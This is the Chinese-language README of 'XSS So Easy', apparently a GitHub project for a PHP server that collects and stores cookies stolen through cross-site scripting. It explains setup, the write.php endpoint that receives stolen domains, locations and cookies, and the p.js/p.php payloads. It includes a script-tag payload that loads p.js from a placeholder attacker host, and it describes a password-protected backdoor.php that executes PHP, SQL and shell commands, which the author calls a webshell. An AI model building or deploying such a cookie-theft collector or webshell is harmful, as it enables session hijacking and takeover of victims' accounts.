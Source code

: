 # XSS So Easy

## 简介

此网站用于 XSS Cookie 劫持攻击中接收并储存 Cookie。

程序语言使用 PHP，使用 PDO 扩展，请根据数据库正确安装；开发环境使用 MySQL 数据库，理论上 PDO 扩展支持各种数据库。

## 使用方法

### 安装配置

1. 建议预先新建数据库用户，赋予最小权限。
2. 配置 `config.php`，填写数据库用户名、密码等信息。
3. 访问 `install.php`：创建数据库、表等操作。
4. 建议更改 `config.php` 文件权限为只能被 HTTP 服务程序读取，可以设置 `style/color.css` 可写。

### 使用

通过 `write.php`，`GET` 或者 `POST` 方法传输获取到的 Cookie。

可供提交的参数为 `domain` `location` `toplocation` `cookie` `opener`。其中 `domain` 必填。

含有 payload：`p.php`。

## 附加功能

- 各个页面的独立访问密码
- 自定义网站名称（`title` 和页面中显示）
- 自定义开发者信息（底部显示）

## Update

### 2015-9-12 21:05:48

一条不当的 payload，使数据库里多了几百条垃圾数据。于是我写了执行 SQL 语句的 `backdoor.php`（支持密码）。

### 2015-9-16 10:44:21

- 自我感觉默认配置的颜色过于小清新。于是分离出 `color.css` 文件，可以自行配置颜色。
- 出于复（xián）习（de）知（dàn）识（téng）的目的，做了个 `color.php`，向 `color.css` 写入数据。
- 后门支持 PHP、SQL、Shell 命令执行，且支持 SQL `SELECT` 命令结果显示。SQL 的 `INSERT` `UPDATE` `DELETE` 影响行数显示。（突然发现做了个 WebShell）
- 输出表格增加 `\n` 使 HTML 源文件易读。
- 由于空字符串在 `if` 语句中效果同 `false`，因此 `system()` 返回最后一行为空时应使用 `if($foo !== FALSE)`。其他情况同理。
- 改变字体为等宽字体。个别地方，中文使用微软雅黑。
- 使用 Eclipse 排版一下。其他一些细节调整优化。

### 2015-9-16 22:25:33

- CSS 文件已改为 PHP 文件读写。
- 在 Windows 上运行系统命令时输出字符集为 `GBK`，增加自动转换为 `UTF-8`。

### 2015-9-21 21:26:59

- 密码验证方式由 `GET` 改为 `POST`，并增加 `install` 和 `testMySql` 页面密码功能
- 分离出 CSS 文件，并移动到 `style/main.css`
- 增加 `read.php` 条件查询

### 2015-10-20 15:45:32

修改数据库，更改 `url` 字段名为 `location` 并允许 `NULL`，增加 `toplocation`（用于框架）、`opener`。

**从旧的数据库变更请在 `backdoor.php` 执行 SQL 命令**：

```sql
alter table info change url location longtext NULL
alter table info add toplocation longtext
alter table info modify column cookie longtext after toplocation
alter table info add opener longtext
describe info
```

增加 `p.js` 作为 payload，修改内部 `write.php` 域名和路径即可使用。

```html
<script src=http://xxx.xxx/p.js></script>
```

### 2015-11-19 21:43:46

近期更新：

- `read.php` 默认的倒序排序，增加删除键，调整样式
- 改进 `backdoor.php` 交互设计

### 2016-8-25

- 从已废弃的 `mysql_connect()` 系列函数更新到 PDO 扩展。
- 大量改进代码：验证密码部分整合成模块，payload `p.js` 改为 `p.php`,根据 `config.php` 动态生成。
- `color.php` 将 CSS 数据与代码分离
